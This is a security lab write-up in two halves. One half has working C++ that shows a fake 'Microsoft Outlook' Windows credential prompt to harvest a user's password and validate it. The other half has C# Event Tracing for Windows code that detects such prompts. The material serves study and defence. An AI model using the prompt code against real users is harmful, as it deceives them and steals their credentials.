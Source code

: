 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	CREDUI_INFO ci = { sizeof(ci) };
	std::wstring promptCaption = L"Microsoft Outlook";
	std::wstring promptMessage = L"Connecting to spotless@offense.local";
	ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
	ci.pszMessageText = (PCWSTR)promptMessage.c_str();

	WCHAR username[255] = {};
	WCHAR password[255] = {};
	DWORD result = 0;

	result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
	if (result == ERROR_SUCCESS)
	{
		HANDLE newToken = NULL;
		BOOL credentialsValid = FALSE;

		credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
		if (credentialsValid)
		{
			// valid credentials provided
		}
		else
		{
			// invalid credentials provided
		}
	}
	else if (result == ERROR_CANCELLED)
	{
		// no credentials provided
	}

	return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using  [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](<../../.gitbook/assets/image (547).png>)

{% hint style="info" %}
The above credential prompt can also be invoked with  PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows (EWT)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](<../../.gitbook/assets/image (548).png>)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](<../../.gitbook/assets/image (549).png>)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](<../../.gitbook/assets/CredUIPromptForCredentials -detection.gif>)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" %}
